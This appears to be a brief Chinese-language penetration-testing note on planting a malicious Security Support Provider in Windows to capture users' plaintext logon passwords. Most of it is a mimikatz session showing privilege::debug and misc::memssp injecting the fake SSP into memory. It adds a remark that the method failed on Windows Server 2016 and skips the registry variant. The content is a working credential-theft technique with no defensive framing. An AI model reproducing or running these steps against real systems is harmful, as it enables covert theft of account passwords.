

可以自己写一个SSP，恶意SSP在系统登录的时候，获取到用户输入的明文密码

# 一、mimikatz 注入伪造的SSP
## 1、内存注入SSP
```plain
C:\Users\Administrator.SEC\Desktop\x64>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # misc::memssp
Injected =)

mimikatz # exit
Bye!

C:\Users\Administrator.SEC\Desktop\x64>
```



WIndows Server 2016失败

## 2、注册表添加SSP
略.